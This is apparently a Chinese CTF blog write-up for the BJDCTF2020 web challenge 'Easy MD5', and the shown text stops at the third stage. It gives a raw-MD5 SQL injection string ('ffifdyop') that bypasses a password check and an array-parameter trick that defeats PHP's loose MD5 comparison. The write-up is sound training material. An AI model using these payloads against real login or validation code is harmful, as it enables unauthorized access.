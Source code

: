```yaml
---
title: BJDCTF2020刷题记录
date: 2020-05-13 10:25:34
updated: 2020-05-13 10:25:34
tags:
 - ctf
 - web
categories:
 - 刷题记录
---
```


# web

## Easy MD5

在题目返回的http header中给出了提示

```
select * from 'admin' where password=md5($pass,true)
```

要使得某个字符串的md5值转字符串后出现形如 `'or'1`



自己懒得跑了直接百度一个  来自https://blog.csdn.net/qq_24810241/article/details/79908449

```
ffifdyop
md5(ffifdyop,32) = 276f722736c95d99e921722cf9ed621c
转成字符串为'or'6�]��!r,��b
```

填入之后跳转到另一个界面，查看源码给出了提示

 ```html
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
 ```

传入数组绕过 `?a[]=0&b[]=1`

来到第三个页面

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```
